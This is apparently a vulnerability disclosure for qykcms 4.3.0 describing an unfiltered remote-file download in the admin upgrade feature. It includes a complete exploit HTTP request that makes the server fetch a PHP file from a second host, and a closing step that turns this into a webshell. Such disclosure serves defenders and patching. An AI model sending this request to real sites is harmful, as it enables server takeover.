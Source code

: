 qykcms_ 4.3.0\wwwroot\admin_ A vulnerability exists in the 645-657 line downfile() function in system  include  function.php, which uses file_ get_ Contents() reads $url, and then uses file_ put_ The contents() function performs a write operation, only determining whether the file exists, without filtering the file content, file source, and file suffix
![image](https://user-images.githubusercontent.com/79570367/225640907-2ebbd786-2b6c-449c-8619-c19e99e96f44.png)
Global search downfile() function
qykcms_ 4.3.0\wwwroot\admin_ system\include\lib\down.php
Line 4 calls the downfile () function directly without filtering、
![image](https://user-images.githubusercontent.com/79570367/225641018-066d9a7c-9580-4de8-9173-46c91c8d2352.png)
Qykcms All background file operations are performed through  wwwroot  admin_ System  api.php. $tcz receives post data and generates an array
![image](https://user-images.githubusercontent.com/79570367/225641125-4116b2cb-6c60-4d09-8078-5b5549ced88d.png)
Use switch to judge log parameters
![image](https://user-images.githubusercontent.com/79570367/225641234-07fbc338-3770-43da-a7ec-c334a74b2ea0.png)
When the parameter log is down, include/lib/down.php is included and executed
The vulnerability point is in the system - upgrade system - automatic upgrade
![image](https://user-images.githubusercontent.com/79570367/225641291-54c48afa-9e63-4b6d-93b9-bd4c121581dc.png)
Packet:
POST /admin_system/api.php HTTP/1.1
Host: 192.168.57.1:81
Accept: */*
Accept-Encoding: gzip, deflate
Origin: file://
Accept-Language: zh-CN,en,*
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/535.2 (KHTML, like Gecko) Safari/535.2 wke/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 108
Connection: close

admin=admin&key=3ba2d1dbeb29f11cf2fb44b77c8d19c1&log=down&downurl=http://192.168.57.2/&filename=1.php

Create a phpinfo file 1.php on the remote host and start the http.server service：
![image](https://user-images.githubusercontent.com/79570367/225641405-19cfe315-cc31-4c38-8cb9-54c8d4813b3a.png)
Send a request packet. The downurl is the IP+port of the vps, and the filename is the file name
![image](https://user-images.githubusercontent.com/79570367/225641500-309e108b-2dbb-4aaf-aaf0-5b6d7d35a510.png)
Access the returned path
![image](https://user-images.githubusercontent.com/79570367/225641571-4e48c4ff-7ed3-4121-bbbf-0fc79336043a.png)
Modify it to a one-sentence Trojan horse, send the data package to the server to download, and successfully obtain the webshell
![image](https://user-images.githubusercontent.com/79570367/225641703-295d58aa-82a3-468d-8439-4966c3f9633f.png)
